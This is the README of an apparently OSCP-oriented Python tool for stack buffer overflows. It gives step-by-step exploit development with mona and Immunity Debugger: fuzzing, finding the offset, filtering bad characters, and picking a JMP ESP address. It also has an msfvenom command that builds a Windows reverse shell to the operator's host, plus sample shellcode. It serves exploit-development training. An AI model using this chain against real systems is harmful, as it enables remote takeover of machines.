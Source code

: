 # Stack-Buffer-Overflow

An "All in One" python script for OSCP style stack based buffer overflows.

![image](https://user-images.githubusercontent.com/41350723/173417707-2753ae6f-1bb2-4858-a1a5-a38d7cdc1fb4.png)


## Before you begin.
* Start the vulnerable app via Immunity Debugger or attach it to Immunity 
* Change IP and Port in bof.py
* Connect using netcat and see if you get a banner or an options menu.
* If you do, uncomment s.receive(1024) on line 52.
* If you have to prefix your buffer value with a command, set prefix value otherwise leave it as empty string.
* If after sending a command if you get any kind of reply, uncomment s.receive(1024) on line 55.

![image](https://user-images.githubusercontent.com/41350723/173417177-d499ac6e-a14c-4108-a075-836d1023b784.png)

##  Option 1 -- Fuzzer
* Execute and make a note of the largest number of bytes that were sent.
* Generate a cyclic pattern of same length as the bytes that crashed the server.
  
  `msf-pattern_create -l <Bytes>`

* Paste the cyclic string into payload variable in bof.py
* Restart the app in Immunity Debugger
    
## Option 2 -- Get Offset
* Restart the app in Immunity Debugger
* Execute Option 2
* In Immunity Debugger, run the following mona command

    `!mona findmsp -distance <bytes>`    ( Change to same length as the pattern )

* In the output you should see a line which states:

    `EIP contains normal pattern : ... (offset XXXX)`

* Update bof.py and set the offset variable to this value

## Option 3 -- Verify Offset
* Restart the app in Immunity Debugger
* Execute Option 3
* The EIP register should now have 4 B's (i.e. 42424242).

## Option 4 -- Generate BadChars
* Generate a bytearray using mona, and exclude the null byte (\x00).

    `!mona bytearray -b "\x00"`

* Note-down the path of the bytearray.bin
* Execute Option 4 to generate a string of bad chars that is identical to the bytearray
* Update bof.py and change the payload variable to this string

## Option 5 -- Check BadChars
* Restart the app in Immunity Debugger
* Execute Option 5
* Make a note of the ESP register address and use it in the following mona command:

    `!mona compare -f C:\Address\To\bytearray.bin -a <address>` <-- modify path and ESP address

* A popup should appear labelled "mona Memory comparison results".
  * The first badchar in the list should be the null byte (\x00).
  * Make a note of any others.
* Generate a new bytearray in mona including these new badchars along with \x00.
    
    `!mona bytearray -b "\x00"   <-- Add the other badchars`

* In bof.py remove the new badchars from paload variable.
* Restart the app in Immunity Debugger
* Run Option 5 again
* Run the mona command agian (Check ESP register address again, it might have changed)

    `!mona compare -f C:\Address\To\bytearray.bin -a <address>`    <-- modify path and ESP address

* Repeat these steps until the results status returns "Unmodified"

## Option 6 -- Exploit
* With the Application either running or in a crashed state, run one of the following mona commands.
Make sure to add all the badchars you identified (including \x00):
  
  * Find JMP ESP - inside the main executable
	  
    `!mona jmp -r esp -cpb "\x00"`    <-- Add the other badchars identified
	    
  * Find JMP ESP - inside one of the DLLs
	  
    `!mona modules`
    * We need to find a .dll were Rebase, SafeSEH, ASLR, NXCompat are set to False. When you find it, run the command below to search for a JMP ESP (FFE4), inside the dll.
	
	  `!mona find -s "\xff\xe4" -m <DLL-NAME> -cpb "\x00"`    <-- Add the other badchars
	  
      or
	
      `!mona find -s 'jmp esp' -type instr -m <DLL-NAME> -cpb "\x00"`    <-- Add the other badchars
      
    * This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window.
  * Choose an address and update bof.py by setting the "EIP" variable to the address, written backwards (ittle endian).
    
    `For example if the address is 01020304 in Immunity, write it as EIP = "\x04\x03\x02\x01" in bof.py.`

* Run the follwing msfvenom command to generate a reverse shell
    
    `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c`       <-- Add the other badchars

* Update bof.py by pasting the generated C code strings into shellcode variable using the following notation:
    ```
    shellcode = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
    "\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
    ...
    "\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
    "\x19\x53\xd0\x92\x19\x53\x2e\x1d")
    ```
      Notice there is no semicolon ; at the end
* Adjust the nopsled variable if needed
* Execute Option 6 after setting up a listner in kali

